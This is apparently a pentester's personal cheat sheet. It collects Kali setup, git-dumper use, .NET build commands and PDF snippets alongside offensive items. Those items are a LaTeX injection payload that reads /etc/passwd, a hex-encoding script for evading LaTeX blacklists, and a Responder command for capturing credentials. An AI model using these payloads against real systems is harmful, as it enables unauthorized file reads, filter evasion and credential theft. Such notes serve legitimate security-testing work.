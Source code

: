 # Misc

## Basic Kali install
```bash
sudo apt install terminator ghidra seclists zaproxy gobuster
```

## Git Dumper
```bash
pip install git-dumper
git-dumper https://<host>/.git ./out
```

## LaTeX
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)

Basic file read
```latex
\documentclass[12pt]{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/etc/passwd}
\end{document}
```

### Bypass blacklist/whitelist
Js script to obfuscate LaTeX as hex values
```js
// leetLatexObfuscator.js
const fs = require('fs')
const args = process.argv.slice(2);
const scriptContent = fs.readFileSync(args[0]).toString()
const parsed = scriptContent.split('\n').map(line => line.split('').map(char =>  "^^" + Number(char.charCodeAt(0)).toString(16)).join('')).join("\n")
fs.writeFileSync(args[1], parsed)
```
```bash
node leetLatexObfuscator.js input.txt output.txt
```

## Dotnet

```bash
dotnet new console -n Honk
dotnet build
dotnet run
dotnet publish -c Release
dotnet publish -c Release -r win-x64 --self-contained -p:PublishSingleFile=true -p:PublishTrimmed=true
```

```xml
<!-- for dll -->
<Project Sdk="Microsoft.NET.Sdk">
  <PropertyGroup>
    <AssemblyName>Honk</AssemblyName>
    <OutputType>Library</OutputType>
    <!-- netstandard2.0 for compatibility -->
    <TargetFramework>netstandard2.0</TargetFramework>
  </PropertyGroup>
</Project>
```

## Responder
HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server
- [responder](https://github.com/lgandx/Responder)
- [responder kali](https://www.kali.org/tools/responder/)
```
responder -I tun0 -wA
```

## PDF stuff

### Create empty pdf
```bash
convert xc:none -page A4 empty.pdf
```

### Empty pdf MIME
```
%PDF-1.2 
1 0 obj
<<
/Title (empty)
/CreationDate (D:20231107231620)
/ModDate (D:20231107231620)
/Producer (xxxx)
>>
endobj
%%EOF
```
